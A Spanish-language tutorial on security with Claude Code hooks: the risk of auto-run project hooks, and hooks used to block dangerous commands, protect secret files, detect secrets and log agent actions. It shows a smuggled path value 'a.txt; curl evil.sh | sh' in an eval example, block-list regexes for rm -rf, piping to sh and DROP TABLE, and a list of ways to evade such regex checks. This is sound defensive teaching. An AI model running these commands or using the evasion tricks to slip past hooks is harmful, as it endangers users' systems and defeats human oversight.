


# 🪝 Ciberseguridad en Hooks — De cero a experto

> Esta lectura cubre **las dos caras de los hooks**: como **riesgo** (comandos que se ejecutan solos con tus permisos) y como **defensa** (la forma más fiable de imponer reglas de seguridad a Claude), desde el primer hook de bloqueo hasta **guardarraíles corporativos y auditoría**.
>
> **Idea central:** una instrucción en `CLAUDE.md` es una **petición** que el modelo puede olvidar o que una prompt injection puede contradecir. Un hook es **código determinista** que se ejecuta siempre, fuera del modelo. Por eso la pregunta es:
>
> **¿Esta regla de seguridad puede depender de que el modelo la recuerde, o necesito que se cumpla siempre?**

> [!NOTE]
> Los diagramas usan **Mermaid**, que se renderiza en GitHub y en VS Code.

> [!IMPORTANT]
> Los eventos, códigos de salida y campos JSON descritos corresponden a la documentación vigente al escribir esta lectura. Consulta la documentación oficial de *hooks* si algo no coincide.

---

## 📑 Tabla de contenido

**Nivel 0 — Fundamentos**
1. [Repaso: qué es un hook](#1-repaso-qué-es-un-hook)
2. [Petición vs garantía](#2-petición-vs-garantía)

**Nivel 1 — Hooks como riesgo**
3. [Ejecución automática con tus permisos](#3-ejecución-automática-con-tus-permisos)
4. [Hooks de proyecto en repos ajenos](#4-hooks-de-proyecto-en-repos-ajenos)
5. [Inyección dentro del propio hook](#5-inyección-dentro-del-propio-hook)

**Nivel 2 — Hooks como defensa**
6. [Cómo bloquea un hook](#6-cómo-bloquea-un-hook)
7. [Bloquear comandos peligrosos](#7-bloquear-comandos-peligrosos)
8. [Proteger archivos sensibles](#8-proteger-archivos-sensibles)
9. [Detectar secretos antes de escribir](#9-detectar-secretos-antes-de-escribir)
10. [Escaneo después de editar](#10-escaneo-después-de-editar)

**Nivel 3 — Experto**
11. [Auditoría y trazabilidad](#11-auditoría-y-trazabilidad)
12. [Limitaciones: lo que un hook no puede garantizar](#12-limitaciones-lo-que-un-hook-no-puede-garantizar)
13. [Hooks gestionados por la organización](#13-hooks-gestionados-por-la-organización)
14. [Checklist final](#14-checklist-final)

---

## Nivel 0 — Fundamentos

## 1. Repaso: qué es un hook

Un hook es un comando (o prompt) que Claude Code ejecuta en un **evento** del ciclo de vida. Recibe un JSON por `stdin` con el contexto del evento.

| Evento | Cuándo | Uso en seguridad |
|--------|--------|------------------|
| `PreToolUse` | Antes de ejecutar una herramienta | **Bloquear** acciones peligrosas |
| `PostToolUse` | Después de ejecutarla | Escanear lo que se escribió |
| `UserPromptSubmit` | Al enviar un prompt | Detectar secretos pegados por error |
| `SessionStart` | Al iniciar sesión | Comprobar entorno (⚠️ también vector de ataque) |
| `PermissionRequest` | Al pedir permiso | Aprobar/denegar automáticamente con reglas |

## 2. Petición vs garantía



> [!TIP]
> Usa **CLAUDE.md** para guiar el estilo y las buenas prácticas, **permisos** para lo que se puede declarar con reglas simples y **hooks** para lógica de seguridad que debe cumplirse siempre y que las reglas no alcanzan a expresar.

---

## Nivel 1 — Hooks como riesgo

## 3. Ejecución automática con tus permisos

Un hook `type: "command"` es un comando de shell que corre **como tú**, sin pasar por el sistema de permisos de herramientas. Puede leer tus archivos, usar tus credenciales y conectarse a la red.

Por eso un hook malicioso (en un plugin o un repo) es más peligroso que una skill maliciosa: **no necesita convencer al modelo de nada**.

## 4. Hooks de proyecto en repos ajenos

Los hooks pueden definirse en `.claude/settings.json` del proyecto, que **se versiona con el repo**.

```json
// .claude/settings.json en un repo que acabas de clonar
{
  "hooks": {
    "SessionStart": [{
      "hooks": [{ "type": "command", "command": "node .claude/hooks/init.js" }]
    }]
  }
}
```

**Mitigación:**
- Antes de ejecutar `claude` en un repo desconocido, revisa `.claude/settings.json`, `.claude/hooks/` y `.mcp.json`.
- Revisa los cambios a esos archivos en los PRs con el mismo rigor que un cambio en CI/CD.
- Usa `/hooks` para ver qué hooks están activos en la sesión.

## 5. Inyección dentro del propio hook

Tu hook recibe datos controlados (indirectamente) por el modelo: el comando que quiere ejecutar, la ruta del archivo, el contenido. Si los usas en shell sin cuidado, el hook se vuelve vulnerable.

```bash
# ❌ El path viene del modelo: "a.txt; curl evil.sh | sh"
FILE=$(jq -r '.tool_input.file_path')
eval "prettier --write $FILE"

# ✅ Comillas, sin eval, y "--" para cortar opciones
FILE=$(jq -r '.tool_input.file_path')
npx prettier --write -- "$FILE"
```

Reglas para escribir hooks:
- Siempre comillas en variables (`"$VAR"`), nunca `eval`.
- Rutas absolutas a los scripts (`"$CLAUDE_PROJECT_DIR"/.claude/hooks/x.sh`).
- Valida el JSON de entrada y **falla cerrado** (si algo es raro, bloquea).

---

## Nivel 2 — Hooks como defensa

## 6. Cómo bloquea un hook

En `PreToolUse` hay dos formas de bloquear:

| Mecanismo | Efecto |
|-----------|--------|
| `exit 2` + mensaje en `stderr` | Bloquea la herramienta y el mensaje se devuelve a Claude |
| `exit 0` + JSON con `permissionDecision: "deny"` | Bloqueo estructurado con motivo |

```json
{
  "hookSpecificOutput": {
    "hookEventName": "PreToolUse",
    "permissionDecision": "deny",
    "permissionDecisionReason": "Acceso a archivos de secretos bloqueado por política"
  }
}
```

> [!WARNING]
> `exit 1` (u otro código distinto de 0 y 2) **no bloquea**: se trata como error no bloqueante. Un hook de seguridad que falla con `exit 1` deja pasar la acción.

## 7. Bloquear comandos peligrosos

```json
// .claude/settings.json
{
  "hooks": {
    "PreToolUse": [{
      "matcher": "Bash",
      "hooks": [{ "type": "command",
        "command": "node \"$CLAUDE_PROJECT_DIR\"/.claude/hooks/bloquear-comandos.js" }]
    }]
  }
}
```

```js
// .claude/hooks/bloquear-comandos.js
const chunks = [];
for await (const c of process.stdin) chunks.push(c);

let cmd = '';
try {
  cmd = JSON.parse(Buffer.concat(chunks)).tool_input?.command ?? '';
} catch {
  console.error('Entrada inválida: bloqueado por seguridad');
  process.exit(2); // fallar cerrado
}

const peligrosos = [
  /\brm\s+-[a-z]*r[a-z]*f?\s+(\/|~|\*)/i,   // rm -rf / ~ *
  /\bgit\s+push\b.*--force\b/,               // push forzado
  /\|\s*(ba)?sh\b/,                          // curl ... | sh
  /\bDROP\s+(TABLE|DATABASE)\b/i,
  /\bchmod\s+777\b/,
];

const hit = peligrosos.find((re) => re.test(cmd));
if (hit) {
  console.error(`Comando bloqueado por política de seguridad: ${hit}`);
  process.exit(2);
}
process.exit(0);
```

## 8. Proteger archivos sensibles

```json
{
  "hooks": {
    "PreToolUse": [{
      "matcher": "Read|Edit|Write",
      "hooks": [{ "type": "command",
        "command": "node \"$CLAUDE_PROJECT_DIR\"/.claude/hooks/proteger-archivos.js" }]
    }]
  }
}
```

```js
// .claude/hooks/proteger-archivos.js
const chunks = [];
for await (const c of process.stdin) chunks.push(c);
const { tool_input } = JSON.parse(Buffer.concat(chunks));
const file = (tool_input?.file_path ?? '').replaceAll('\\', '/');

const protegidos = [/\.env(\.|$)/, /\.pem$/, /id_rsa/, /secrets?\//i, /appsettings\.Production\.json$/];

if (protegidos.some((re) => re.test(file))) {
  console.log(JSON.stringify({
    hookSpecificOutput: {
      hookEventName: 'PreToolUse',
      permissionDecision: 'deny',
      permissionDecisionReason: `Archivo protegido: ${file}`,
    },
  }));
}
process.exit(0);
```

> [!TIP]
> Para casos simples, una regla de permisos ya basta: `"deny": ["Read(./.env)", "Read(./.env.*)", "Read(./secrets/**)"]`. Usa el hook cuando necesites lógica (normalizar rutas, excepciones, logs).

## 9. Detectar secretos antes de escribir

Evita que Claude escriba un secreto hardcodeado (patrón nº 3 de *Patrones peligrosos del código generado por IA*):

```js
// .claude/hooks/detectar-secretos.js  (matcher: "Edit|Write")
const chunks = [];
for await (const c of process.stdin) chunks.push(c);
const { tool_input } = JSON.parse(Buffer.concat(chunks));
const texto = tool_input?.content ?? tool_input?.new_string ?? '';

const patrones = {
  'AWS Access Key': /AKIA[0-9A-Z]{16}/,
  'GitHub token': /gh[pousr]_[A-Za-z0-9]{36,}/,
  'Clave privada': /-----BEGIN [A-Z ]*PRIVATE KEY-----/,
  'Secreto genérico': /(secret|password|api[_-]?key|token)\s*[:=]\s*["'][^"'\s]{8,}["']/i,
};

const encontrados = Object.entries(patrones).filter(([, re]) => re.test(texto)).map(([n]) => n);
if (encontrados.length) {
  console.error(`Posible secreto en el código (${encontrados.join(', ')}). Usa variables de entorno.`);
  process.exit(2);
}
process.exit(0);
```

Como el mensaje de `stderr` vuelve a Claude, el modelo **corrige solo** y reescribe usando `process.env`.

## 10. Escaneo después de editar

`PostToolUse` no puede deshacer la acción, pero sí avisar a Claude para que corrija:

```json
{
  "hooks": {
    "PostToolUse": [{
      "matcher": "Edit|Write",
      "hooks": [{ "type": "command",
        "command": "npx --no-install eslint --plugin security \"$(jq -r .tool_input.file_path)\" || exit 2" }]
    }]
  }
}
```

Herramientas útiles: `eslint-plugin-security`, `semgrep`, `gitleaks`, `npm audit`, analizadores de .NET (`dotnet build` con analizadores de seguridad / Security Code Scan).

---

## Nivel 3 — Experto

## 11. Auditoría y trazabilidad

Registra cada acción del agente para poder investigar después:

```js
// .claude/hooks/auditar.js  (PreToolUse, matcher: "*")
import { appendFileSync } from 'node:fs';
const chunks = [];
for await (const c of process.stdin) chunks.push(c);
const e = JSON.parse(Buffer.concat(chunks));
appendFileSync(`${process.env.HOME ?? process.env.USERPROFILE}/.claude/audit.log`,
  JSON.stringify({ ts: new Date().toISOString(), session: e.session_id, tool: e.tool_name, input: e.tool_input }) + '\n');
process.exit(0);
```

> [!WARNING]
> Un log de auditoría puede acabar conteniendo secretos (comandos con tokens, contenido de archivos). Protégelo, redáctalo y define su retención.

## 12. Limitaciones: lo que un hook no puede garantizar

- **Las expresiones regulares se pueden evadir**: `r''m -rf`, variables (`$X -rf /`), base64, scripts intermedios (`echo ... > x.sh && sh x.sh`). Un hook de lista negra es una capa, **no un sandbox**.
- Un comando permitido puede hacer cosas peligrosas (`npm install` ejecuta `postinstall`; `node script.js` ejecuta cualquier cosa).
- Para aislamiento real, combina con el **sandbox** de Claude Code (restricción de sistema de archivos y red a nivel de SO), contenedores o devcontainers.



## 13. Hooks gestionados por la organización

En *managed settings*, la organización puede:

- Definir hooks obligatorios (auditoría, detección de secretos) que el usuario no puede quitar.
- Activar `allowManagedHooksOnly` para **ignorar hooks de usuario, proyecto y plugins** y ejecutar solo los aprobados.
- Desactivar hooks por completo con `disableAllHooks` en entornos donde no se quieren.

## 14. Checklist final

- [ ] ¿He revisado los hooks de `.claude/settings.json` y plugins antes de usar un repo ajeno?
- [ ] ¿Mis hooks usan comillas, rutas absolutas y nunca `eval`?
- [ ] ¿Bloquean con `exit 2` (no `exit 1`) y fallan cerrado ante entradas raras?
- [ ] ¿Tengo hooks para comandos peligrosos, archivos sensibles y secretos?
- [ ] ¿Escaneo el código tras cada edición?
- [ ] ¿Registro las acciones del agente y protejo ese log?
- [ ] ¿Entiendo que un hook de regex no es un sandbox y combino capas?
